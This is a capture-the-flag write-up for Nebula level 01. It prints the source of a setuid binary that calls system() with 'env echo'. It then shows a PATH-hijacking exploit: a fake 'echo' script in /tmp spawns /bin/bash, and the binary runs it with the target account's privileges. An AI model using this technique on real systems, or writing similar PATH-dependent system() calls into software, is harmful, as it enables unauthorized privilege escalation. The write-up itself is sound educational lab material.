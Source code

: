 # Level 01
This level gives us some source code of the flag01 binary that we need to exploit.

Source Code:
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

The vulnerability here is that the system call is using a relative path to call the "echo" command. So to exploit this, I modify my PATH environment variable to put /tmp dir as the first directory searched. Then I created my own python script called echo, which will then be called by the flag01 binary.

```
level01@nebula:/home/flag01$ export PATH=/tmp:$PATH

level01@nebula:/home/flag01$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

flag01@nebula:/home/flag01$ cat /tmp/echo
#!/usr/bin/env python
import os

os.system('/bin/bash')

level01@nebula:/home/flag01$ ./flag01

flag01@nebula:/home/flag01$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)

flag01@nebula:/home/flag01$ getflag
You ave successfully executed getflag on a target account
```
